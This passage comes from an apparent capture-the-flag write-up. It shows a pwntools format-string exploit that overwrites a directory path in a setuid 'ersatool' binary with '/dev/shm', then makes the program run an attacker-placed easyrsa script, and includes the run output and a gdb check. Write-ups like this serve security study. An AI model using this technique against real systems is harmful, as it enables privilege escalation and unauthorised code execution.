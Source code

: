 
In fact, that works. But cleaner would be to make a loop:

    
    
    for i,c in enumerate("/dev/shm"):
        p.sendline(f"%16${ord(c)}p%16$n".ljust(64, '.').encode() + p64(ersa_dir_addr+i)) 
        p.recvuntil(b"\n\n")
    

The `recvuntil` just clears out all the junk responses I don’t need (otherwise
all the cached incoming data will dump when `interactive` is called). Running
it presents a prompt:

    
    
    oxdf@parrot$ python3 root.py 
    [+] Starting local process './ersatool': pid 547061
    [+] Leaked EXT address:          0x000055713e5aa15f
    [+] Calculated ERSA_DIR address: 0x000055713e5aa0f0
    [*] Switching to interactive mode
    print->CN=$
    

And `gdb` shows the path overwritten:

    
    
    gdb-peda$ x/s &ERSA_DIR
    0x55713e5aa0f0 <ERSA_DIR>:      "/dev/shm"
    

#### Finish Script

Now that I’ve overwritten the folder, I’ll just need to call `create` with any
input to get the program to call `/dev/shm/easyrsa`. That’s a few more lines:

    
    
    p.sendline()             # return to main menu
    p.recvuntil(b"#")        # get prompt
    p.sendline(b"create")    # enter create menu
    p.recvuntil(b"CN=")      # get prompt
    p.sendline(b"0xdf")      # send anything
    p.recv(4096)             # recv all sent error messages 
    

Interestingly, if I don’t have a final `p.recv` at the end, it will just exit
before the `create` method runs, and I don’t get execution. Just waiting for a
response is enough to keep the program open. I removed the `interactive` call.

I’ll also need a script at `/dev/shm/easyrsa`:

    
    
    #!/bin/bash
    
    ping -c 2 127.0.0.1
    

It needs to be executable as well:

    
    
    oxdf@parrot$ chmod +x /dev/shm/easyrsa
    